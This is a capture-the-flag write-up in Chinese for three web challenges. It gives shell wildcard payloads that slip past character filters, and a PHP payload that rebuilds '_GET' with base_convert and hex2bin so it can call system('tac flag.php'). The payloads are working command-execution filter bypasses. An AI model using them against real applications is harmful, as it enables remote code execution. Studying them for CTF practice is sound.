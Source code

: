 

## 121

> 禁用了SHLVL

>  `$?`表示上次命令执行结果，0为成功，非0为不正常

 把SHLVL替换为：`#?`

```
 ${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```



## 122

> pwd和#被ban

找其他的`/`开头的，如`home`

`#`不加也没关系，只是降低了概率
通过`$?`来实现，`$?是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误`

```
${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```



## 124-动态变量解析

类似[CISCN 2019 ]Love Math,动态变量解析

> scandir() ：返回指定目录中的文件和目录的数组
> base_convert() ：在任意进制之间转换数字
> dechex() ：把十进制转换为十六进制
> hex2bin() ：把十六进制值的字符串转换为 ASCII 字符
> var_dump() ：函数用于输出变量的相关信息
> readfile() ：输出一个文件。读入一个文件并写入到输出缓冲。成功，则返 回从文件中读入的字节数。失败，则返回 false。

可以通过 `@readfile()` 形式调用该函数来隐藏错误信息；语法：`readfile(filename,include_path,context)`

通过c进行get传参，不能包含blacklist里面的字符，并且不能有whitelis以外的字符,这里可以通过将函数名转为10进制，再通过白名单内的函数转回函数名，执行相应代码

```
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可代替[]
```

最终payload：

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=tac flag.php
```

